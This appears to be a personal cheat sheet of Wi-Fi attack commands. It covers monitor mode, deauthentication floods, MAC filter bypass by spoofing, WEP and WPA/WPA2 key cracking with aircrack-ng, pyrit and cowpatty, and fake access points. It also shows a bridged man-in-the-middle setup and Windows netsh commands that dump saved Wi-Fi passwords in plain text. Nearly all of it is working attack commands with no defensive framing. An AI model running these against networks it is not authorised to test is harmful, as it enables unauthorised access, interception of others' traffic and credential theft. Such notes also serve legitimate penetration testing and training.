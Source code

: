 1. monitor mode is like promiscuous mode of the ethernet world where all the traffic can be monitored at a given time on the current channel.

**Powering up the wireless card**

2. ifconfig wlan0 up ---> start the wireless card** 

3. airmon-ng start wlan0 <channel> ---> monitor mode interface is created on top of the device for sniffing

**Check active Access points and the stations/clients connecting to it**

4. airodump-ng --band bn wlan0mon ---> make the card hop through different channel and check wifi traffic

5. mdk3 wlan0mon b -n baba ---> Creating a fake AP broadcasting beacons with SSID baba

**Finding Hidden SSIDs**

6. 

		a. Passive way - monitor the network for clients to connect
		b. active way - break all the connections between clients and Access point and further monitor the traffic for assocication traffic.
		
		(send the deauthentication notification packet to the clients)
		aireplay-ng --deauth 0 -a <BSSID> wlan0mon -D   

		--deauth 0 will continously send deauth packets
		-D disable AP detection

7. Bypassing MAC filters

		a. aireplay-ng --fakeauth 10 -e Logan wlan0mon  --> **Trying a fake authentication using the wireless card when MAC filter is off(open network)
	
		b. aireplay-ng --fakeauth 10 -e Logan wlan0mon -h <whiteListedMacAddress> --> To spoof a mac address and fool the AP to allow authentication
		
8. Cracking Shared/WEP encyption
	
		a. aireplay-ng --fakeauth 10 -e Logan wlan0mon -y <KeyStreamFile>

9. Creating random soft wifi interface

		a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon

10. MiTM over Wireless

		a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon -v    ---> Broadcast fake AP SSID
		b. ifconfig at0 up  ---> Power up the soft interface created
		c. 
	
		 1. brctl addbr mitm  ---> creating bridge mitm with brctl
		 2. brctl addif mitm eth0  ---> adding interfaces to the bridge
		   brctl addif mitm at0

		 3. ifconfig eth0 0.0.0.0 up
		   ifconfig at0 0.0.0.0 up

		 4. ifconfig mitm up   ---> powering up the bridge interface
		 5. dhclient mitm & ---> running dhcp client on bridge interface 	
			---> bridge the 2 interfaces (at0 with the other interface that has internet On)

**links --> https://forums.kali.org/showthread.php?17926-Fake-access-point-ettercap-sslstrip

11. Breaking WEP

		a. airodump-ng --channel 6 wlan0mon --write <fileName> --bssid <bssid>  ---> Start dumping packets on the target channel 
		b. aireplay-ng --arpreplay -e Logan -h <macAddressOfVictim> wlan0mon ---> Replay arp packets (In parallel fire this command)
		c. aircrack-ng <capFile>  ---> Start cracking with aircrack

12. Cracking WPA/WPA2 (Dictionary based attack)

		a. airodump-ng mon0 --channel 6 --essid <wifiAPName> --write <file> ---> Capture the handshake
		b. use aircrack/ cowpatty along with the dictionary
		c. aircrack -w dict <pcapCaptureFile>

13. Cracking/Decrypting with airdecap-ng/ genpmk/ cowpatty/ pyrit - faster way

		a. airdecap-ng -e <essid> -p <passPhrase> <capturedPcapFile> -b <bssid>

		Fastening up the process by pre-calculating the PMKs and then trying the Dictionary attack with the already generated PMKs.

		b. genpmk -f <dictionaryFile> -s <ESSID> -d <outputFile>  ---> Preshared key or PMK list creation
		c. cowpatty -d prePmks -s "Logan" -r malWpa2-01.cap  ---> Cracking with cowpatty

	**With Pyrit**

		d. pyrit -r <capFile containing handShake> analyze   ---> analyze the capture pcap file and derive handshakes and APs
		e. pyrit -o <pmkFile> -i <dictionaryFile> -e <ssid> passthrough

		f1. cowpatty -d <pmkFile> -s <ssid> -r <capturedPcapFile>
		
			or

		f2. pyrit -r <pcapfile> -i <precoputedPMKfile> attack_cowpatty	

		With Aircrack - analyze the handshake capture file

		g. aircrack -w dict <pcapCaptureFile>	

14. Creating a WEP, WPA fakes access point/ Honeypots	

		a. airbase-ng --essid Popeye -a aa:aa:aa:aa:aa:aa -c 13 mon1 (WEP)
		b. airbase-ng -W 1 --essid Popeye -a cc:cc:cc:cc:cc:cc -c 13 mon1 -z 2  (WPA)
		c. airbase-ng -W 1 --essid Popeye -a dd:dd:dd:dd:dd:dd -c 13 mon4 -Z 4  (WPA2)

15. WPA_Supplicant

		**wpa_supplication.conf** 

		ctrl_interface=/var/run/wpa_supplicant
		ap_scan=1

		network={
		ssid="Pop"
		proto=WPA
		key_mgmt=WPA-PSK
		pairwise=CCMP TKIP
		group=CCMP TKIP WEP104 WEP40
		psk="boloTarara"
		priority=2
		}

	**command**
	
		wpa_supplicant  -iwlan0 -c wpa_supplicant.conf
	
16. Windows WiFi commands

		a. netsh wlan show interfaces --> view all wifi interfaces

		b. netsh wlan show drivers  --> extract current wifi driver information

		c. netsh wlan show networks --> view available networks


		d. netsh wlan show profiles  --> view profiles of the wifi network that the windows machine has connected 

		e. netsh wlan show profiles name="SSID" --> look at the configuration details of a previously connected AP

		f. netsh wlan connect name="kela" interface="Wi-Fi" --> Connect to a wifi network from cmd

		g. netsh wlan export profile name="kela"  --> Dump the profile in an external file

		h. netsh wlan show profile name="kela" key=clear  --> Dump wifi password in plain text

		i. netsh wlan set hostednetwork mode=allow ssid=Ambanis key=l@urA1234     --> Creating a hosted network on windows
    		netsh wlan start hostednetwork






